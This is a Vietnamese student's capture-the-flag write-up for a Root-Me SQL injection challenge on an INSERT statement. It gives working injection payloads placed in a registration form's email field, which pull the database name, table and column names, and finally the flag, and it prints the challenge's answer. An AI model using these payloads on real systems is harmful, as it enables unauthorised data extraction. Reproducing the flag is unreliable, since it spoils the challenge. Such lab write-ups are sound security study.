






# Challenge: SQL injection - Insert 
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Insert

- Bài này mới vào ta thấy có 2 form đăng nhập và đăng ký
<p align="center"></p>
<p align="center"></p>
- thử tìm kiếm thông tin về lệnh INSERTs trong MySQL để hiểu hơn về thử thách này
<p align="center"></p>

- Ta thấy có thể chèn thêm dữ liệu ở vế sau phần sau vào được bảng, Vì thử đăng kí tài khoản và chèn các lệnh vào, thì ta thấy nó được chuyển sang dạng chuỗi, do vậy không thể làm gì được với input thứ nhất, bằng cách bộ input thứ 2 vào trường email, ta có thể khai thác được...

- Kiểm tra ngay với input phía dưới ta nhận được thông báo `You can logged in ! Authentification.
`

```
username = laongoc2k1
password = laongoc2k1
email = laongoc2k1'),('laongoc2k2','laongoc2k2',(select database()));-- -
```

- Đăng nhập với người dùng laongoc2k2 ta được <p align="center"></p>
> Có 1 database là c_webserveur_33

```
username = laongoc2k30
password = laongoc2k30
email = laongoc2k3'),('laongoc2k3','laongoc2k3',(select concat(table_name) from information_schema.tables where table_schema='c_webserveur_33' limit 1));-- -
```
--> table: membres
<p align="center"></p>

```
username = laongoc2k40
password = laongoc2k40
email = laongoc2k3'),('laongoc2k4','laongoc2k4',(select concat(table_name) from information_schema.tables where table_schema='c_webserveur_33' limit 1 offset 1));-- -
```
--> attack detected

```
username = laongoc2k41
password = laongoc2k41
email = laongoc2k3'),('laongoc2k42','laongoc2k42',(select concat(table_name) from information_schema.tables where table_schema='c_webserveur_33' and table_name!='membres' limit 1));-- -
```
--> table: flag

- Ta thấy có bảng flag, do vậy ta tìm sâu vào bảng này, tìm các cột của nó

```
username = laongoc2k5
password = laongoc2k5
email = laongoc2k3'),('laongoc2k51','laongoc2k51',(select concat(column_name) from information_schema.columns where table_name='flag' limit 1));-- -
```
--> colum: flag

- vậy bảng tên flag mà cột cũng tên flag luôn
```
username = laongoc2k6
password = laongoc2k6
email = laongoc2k3'),('laongoc2k61','laongoc2k61',(select concat(flag) from flag limit 1));-- -
```
--> flag is : moaZ63rVXUhlQ8tVS7Hw
<p align="center"></p>

## Kết quả password là `moaZ63rVXUhlQ8tVS7Hw`